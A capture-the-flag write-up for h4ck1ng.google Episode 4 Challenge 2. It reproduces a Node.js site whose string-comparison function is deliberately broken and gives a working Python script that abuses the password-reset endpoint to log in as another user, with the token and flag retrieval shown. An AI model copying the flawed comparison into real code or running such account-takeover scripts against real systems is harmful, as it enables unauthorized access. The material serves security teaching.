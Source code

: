# Episode 4: Challenge 2

## Description

> You are the researcher. Follow the hints, find a vulnerability in the platform.
> 
> Hint: Try logging in as tin 

The source code for the VRP website was attached. 

<details>
  <summary>Click to expand</summary>

The following sources are needed to solve the challenge. The sources included many more template files which are not relevant.

### app.js
```js
  const express = require('express')
const bodyParser = require('body-parser')
const path = require('path')
const jwt = require('jsonwebtoken')
const cookieParser = require('cookie-parser')
const { engine } = require('express-handlebars')

const { getUserByUsernameAndPassword, resetPasswordByUsername } = require('./services/users')
const { setUserFromCookies, authenticate, adminsOnly } = require('./middlewares')
const { secret, flagMap } = require('./constants')

const app = express()

app.use(cookieParser())
app.use(bodyParser.urlencoded())

// Register `hbs.engine` with the Express app.
app.engine('.hbs', engine({extname: '.hbs'}))
app.set('view engine', '.hbs')
app.set('views', path.join(__dirname, 'views'))

app.use('/', setUserFromCookies)

app.use('/static', express.static('static'))

app.get('/', function (req, res, next) {
  const flag = flagMap[req.user ? req.user.username : '']
  return res.render('home', { user: req.user, flag })
})

app.get('/about', function (req, res, next) {
  return res.render('about', { user: req.user })
})

app.get('/faq', function (req, res, next) {
  return res.render('faq', { user: req.user })
})

app.get('/learn', function (req, res, next) {
  return res.render('learn', { user: req.user })
})

app.get('/login', function (req, res, next) {
  return res.render('login', { user: req.user })
})

app.post('/login', async function (req, res, next) {
  const { username, password } = req.body
  if (typeof username !== 'string') {
    return res.render('login', { user: req.user, errorMessage: 'Incorrect credentials.' })
  }
  if (typeof password !== 'string') {
    return res.render('login', { user: req.user, errorMessage: 'Incorrect credentials.' })
  }
  
  const user = await getUserByUsernameAndPassword(username, password)

  if (!user) {
    return res.render('login', { user: req.user, errorMessage: 'Incorrect credentials.' })
  }

  const token = jwt.sign({ username: user.username }, secret)
  res.cookie('token', token)

  return res.redirect('/')
})

app.get('/contributing', authenticate, adminsOnly, function (req, res, next) {
  return res.render('contributing', { user: req.user })
})

app.get('/reset-password', function (req, res, next) {
  return res.render('reset-password', { user: req.user })
})

app.post('/reset-password', async function (req, res, next) {
  const { username } = req.body
  const success = await resetPasswordByUsername(username)

  if (success) {
    return res.render('reset-password', { user: req.user, errorMessage: `Password for ${username} is resetted.` })
  } else {
    return res.render('reset-password', { user: req.user, errorMessage: 'Unable to reset password.' })
  }
})

app.listen(1337, function () {
  console.log('server is listening on port 1337')
})
```

### middleware.js
```js
const jwt = require('jsonwebtoken')

const { secret } = require('./constants')
const { getUserByUsername } = require("./services/users")

/**
 * Sets the user object from cookies
 * @param {object} req 
 * @param {object} res 
 * @param {function} next 
 */
async function setUserFromCookies (req, res, next) {
  const { token } = req.cookies
  if (!token) return next()

  try {
    const { username } = jwt.verify(token, secret)
    if (!username) throw new Error('invalid user')
    
    const user = await getUserByUsername(username)
    if (!user) throw new Error('invalid user')
    
    req.user = user
  } catch (err) {
    // It is fine to send us invalid tokens... No user object will be injected in this case.
  }

  return next()
}

/**
 * Checks if the user is authenticated
 * @param {object} req
 * @param {object} res
 * @param {function} next
 * @returns 
 */
async function authenticate (req, res, next) {
  if (!req.user) {
    return res.render('login', { errorMessage: 'You need to sign in to access the page.' })
  }
  return next()
}

/**
 * Checks if the user has the admin rights
 * @param {object} req
 * @param {object} res
 * @param {function} next
 * @returns 
 */
async function adminsOnly (req, res, next) {
  if (!req.user) {
    return res.render('login', { errorMessage: 'You need to sign in to access the page.' })
  }
  if (!req.user.isAdmin) {
    return res.render('login', { errorMessage: 'You are not authorized to perform the action.' })
  }

  return next()
}

module.exports = {
  setUserFromCookies,
  authenticate,
  adminsOnly
}

```

### constants.js
```js
const crypto = require('crypto')

// the secret is used to sign cookies
const secret = crypto.randomBytes(16).toString('hex')

const flagMap = {
  'don': '**REDACTED**',
  'tin': '**REDACTED**'
}

module.exports = {
  secret,
  flagMap
}

```

### users.js
```js
const crypto = require('crypto')
const safeEqual = require('../util/safe-equal')

const users = [
  { username: 'don', hashedPassword: 'i4tUa+RTGgv+jRtyUWBXbP1i/mg=', isAdmin: true },
  { username: 'tin', hashedPassword: 'XtBEoWAkAF/UKax1SDdIHeCJbtE=' }
]

/**
 * Finds a user by username.
 * @param {string} username
 * @returns the user if one is found.
 */
async function getUserByUsername (username) {
  const user = users.find(user => user.username === username)
  return user
}

/**
 * Finds a user by username and password.
 * @param {string} username
 * @param {string} password
 * @returns the user if one is found.
 */
async function getUserByUsernameAndPassword (username, password) {
  const user = await getUserByUsername(username)
  if (!user) return undefined

  const hashedPassword = crypto.createHash('sha1').update(password).digest('base64')
  if (!safeEqual(user.hashedPassword, hashedPassword)) return undefined
  
  return user
}

/**
 * Resets the password given the username.
 * @param {string} username
 * @returns a boolean indicating if the reset is successful
 */
async function resetPasswordByUsername (username) {
  const user = await getUserByUsername(username)
  if (!user) return false

  // we don't allow admins to reset passwords
  if (!!user.isAdmin) return false

  const password = crypto.randomBytes(8).toString('hex')
  const hashedPassword = crypto.createHash('sha1').update(password).digest('base64')
  
  user.hashedPassword = hashedPassword
  return true
}

module.exports = {
  getUserByUsername,
  getUserByUsernameAndPassword,
  resetPasswordByUsername
}
```

### 
```js
/**
 * Checks if the given strings are identical. Runs in constant time and it
 * should be invulnerable from timing attacks.
 * 
 * Reference: https://www.chosenplaintext.ca/articles/beginners-guide-constant-time-cryptography.html
 * 
 * @param {string} a
 * @param {string} b
 * @returns a boolean indicating if the strings are equal.
 */
function safeEqual(a, b) {
    let match = true;

    if (a.length !== b.length) {
        match = false;
    }

    const l = a.length;
    for (let i = 0; i < l; i++) {
        match &&= a.indexOf(i) === b.indexOf(i);
    }

    return match;
}

module.exports = safeEqual

```

</details>

## Solution

This challenge is related to [Challenge 1](e04c01.md), using the same VRP site. We're supposed to log in as `tin`.

To log in, we provide a username (we'll be using `tin`) and a password. The username and password are sent to:

```js
async function getUserByUsernameAndPassword (username, password) {
  const user = await getUserByUsername(username)
  if (!user) return undefined

  const hashedPassword = crypto.createHash('sha1').update(password).digest('base64')
  if (!safeEqual(user.hashedPassword, hashedPassword)) return undefined
  
  return user
}
```

This function hashes the password with `sha1` and encodes it as `base64`, then compares it to the expected `user.hashedPassword` as retrieved from the `user` object:

```js
const users = [
  { username: 'don', hashedPassword: 'i4tUa+RTGgv+jRtyUWBXbP1i/mg=', isAdmin: true },
  { username: 'tin', hashedPassword: 'XtBEoWAkAF/UKax1SDdIHeCJbtE=' }
]
```

The first thing we should do here is decode tin's base64-encoded hash and look for it in a reverse-hash service online. However, no results are available. How do we login then?

Well, the answer lies within the `safe-equal` module:

```js
function safeEqual(a, b) {
    let match = true;

    if (a.length !== b.length) {
        match = false;
    }

    const l = a.length;
    for (let i = 0; i < l; i++) {
        match &&= a.indexOf(i) === b.indexOf(i);
    }

    return match;
}

```

It's supposed to provide a way to compare two strings in constant time, to avoid timing attacks. However, instead of looping over the character at index `i`, it's comparing `a.indexOf(i)`:

> The `indexOf()` method, given one argument: a substring to search for, searches the entire calling string, and returns the index of the first occurrence of the specified substring.
> It returns the index of the first occurrence of `searchString` found, or `-1` if not found.

This means that it is looping over `i=0..a.length` and checking that the first occurrence of `i` in both strings is the same. The strings don't have to be identical for that to be true:

```js
> const safeEqual = require("./app/util/safe-equal")
undefined
> safeEqual("foo1", "bar1")
true
> safeEqual("foo", "bar")
true
```

Now, tin's original password is encoded as `'XtBEoWAkAF/UKax1SDdIHeCJbtE='`, which means that we just have to match the `1` at offset `'XtBEoWAkAF/UKax1SDdIHeCJbtE='.indexOf(1) = 15`. But notice how the website has the ability to reset a user's password, and who knows how many times the password was reset by other participants. So, we'll just use a constant password and reset the password ourselves until we get a hit:

```python
import requests

BASE_URL = "https://vrp-website-web.h4ck.ctfcompetition.com"

def login(s, username, password):
    r = s.post(f"{BASE_URL}/login", data = {"username": username, "password": password})
    if "Incorrect credentials" in r.text:
        return False
    return True

def reset_password(s, username):
    r = s.post(f"{BASE_URL}/reset-password", data = {"username": username})
    if "Unable to reset password" in r.text:
        return False
    return True

s = requests.session()

for _ in range(100):
    username = "tin"
    password = "624a1156ed64d5d4"
    if not reset_password(s, username):
        raise RuntimeError("Can't reset password")
    if login(s, username, password):
        print(s.cookies.get_dict())
        break
```

Output:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP004/Challenge_02]
└─$ python3 login.py
{'token': 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRpbiIsImlhdCI6MTY2NTMzMjc0N30.swmTpk_wQtjITBQBvVEFtlJ23oAoKlx5NBtQl-VbbIY'}
```

We can now use this token to login as tin:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP004/Challenge_02]
└─$ curl "https://vrp-website-web.h4ck.ctfcompetition.com" --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRpbiIsImlhdCI6MTY2NTMzMjc0N30.swmTpk_wQtjITBQBvVEFtlJ23oAoKlx5NBtQl-VbbIY" -s | grep solve
                  Here is your flag: <a href="https://h4ck1ng.google/solve/all_equals_are_equal_but_some_equals_are_more_equal_than_others" target="_blank" style="color: #222;">https://h4ck1ng.google/solve/all_equals_are_equal_but_some_equals_are_more_equal_than_others</a>.
```